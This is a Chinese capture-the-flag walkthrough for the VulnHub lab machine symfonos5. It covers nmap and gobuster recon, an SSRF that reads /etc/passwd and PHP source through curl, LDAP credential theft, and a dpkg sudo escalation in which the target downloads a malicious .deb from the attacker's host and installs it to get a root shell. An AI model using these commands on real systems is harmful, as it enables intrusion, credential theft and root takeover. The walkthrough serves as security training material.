 # symfonos5-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-5,415/

**Description**

Beginner real life based machine designed to teach people the importance of understanding from the interior.

Tested on VMware and Virtualbox

**知识点**
- ssrf
- ldap
- dpkg 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.151` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.151
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/2.png)

SSH、web、ldap,ldap 一般比较少见,先从熟悉的 web 开始把

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/3.png)

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/4.png)

老样子,啥都没有,爆破目录,字典自 https://github.com/No-Github/AboutSecurity/blob/master/%E5%AD%97%E5%85%B8/Web%E5%AD%97%E5%85%B8/%E7%9B%AE%E5%BD%95/fast-scan.txt
```bash
./gobuster dir -u 192.168.141.151 -w fast-scan.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/5.png)

访问下这个 admin.php 和 home.php

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/6.png)

home.php 会将我重定向到 admin.php,看看 html 源码

```
curl http://192.168.141.151/home.php
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/7.png)

这个熟悉的 127.0.0.1 看上去是 ssrf 啊,读文件试试

# 中期-漏洞利用

```
curl http://192.168.141.151/home.php\?url\=file:///etc/passwd
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/8.png)

尝试读 admin.php 的源码
```
curl http://192.168.141.151/home.php\?url\=file:///var/www/html/admin.php
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/9.png)

看上去是 LDAP 的凭证。

ldap管理工具有 ldapadmin，JXplorer 等,这里就用 ladpadmin 测试了

访问 https://sourceforge.net/projects/ldapadmin/ 下载安装包,我下的是windows版的,就不演示 linux 平台了

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/10.png)

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/11.png)

连接后可以看到有个 zeus 用户和其密码

SSH 连接上去,寻找提权的方法

---

# 后期-提权

```
sudo -l
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/12.png)

dpkg 以 root 权限运行,上 https://gtfobins.github.io/ 找下 dpkg 相关的内容

在 kali 上运行
```
gem install --no-document fpm
TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF

python -m SimpleHTTPServer 8080
```

完成后靶机下载POC
```
wget 192.168.141.134:8080/x_1.0_all.deb
sudo dpkg -i x_1.0_all.deb
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/13.png)

提权成功,感谢靶机作者 Zayotic,和 mzfr 分享的 writeup
